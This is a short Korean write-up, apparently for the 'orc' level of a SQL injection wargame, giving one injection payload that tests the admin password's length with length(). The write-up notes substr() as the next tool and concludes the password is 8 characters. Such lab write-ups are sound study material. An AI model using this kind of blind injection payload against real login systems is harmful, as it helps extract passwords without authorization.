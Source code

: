 # orc

* length 함수로 pw 길이 구하기
* substr 함수 이용   
<br/>


```
?pw=aa' or id='admin' and length(pw)='8
```   
pw 길이는 8이라는 것을 알 수 있다.   
<br/>

